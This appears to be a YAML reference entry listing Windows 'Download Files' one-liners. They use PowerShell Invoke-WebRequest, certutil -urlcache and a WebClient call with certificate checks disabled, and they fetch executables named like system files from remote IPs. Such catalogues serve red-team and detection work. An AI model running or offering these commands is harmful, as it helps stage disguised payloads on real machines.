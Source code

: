 ```yaml
---
functions:
  file-transfer:
    - description: Download Files
      code: |
        powershell -c iwr -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing
        Invoke-Webrequest -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing
        certutil.exe -urlcache -f http://192.168.1.1:8080/get.exe get.exe
        powershell -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadFile('https://68.183.217.18:56789/svchosts.exe','svchosts.exe')"
resources: |

---
```

